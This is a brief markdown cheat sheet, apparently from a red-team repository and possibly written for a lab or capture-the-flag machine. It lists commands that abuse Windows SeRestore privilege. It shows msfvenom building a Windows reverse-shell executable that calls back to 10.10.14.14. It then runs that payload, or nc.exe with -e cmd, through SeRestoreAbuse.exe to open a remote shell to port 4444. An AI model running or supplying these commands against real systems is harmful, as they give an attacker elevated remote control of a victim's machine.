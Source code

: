 ## File
`https://github.com/dxnboy/redteam`

## exec
#### execute PE
- ready
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=80 -f exe -o reverse.exe`
- exec
  `.\SeRestoreAbuse.exe 'C:\Users\emily.oscars.CICADA\Documents\reverse.exe'`
#### nc
`.\SeRestoreAbuse.exe '.\nc.exe 10.10.14.14 4444 -e cmd'`

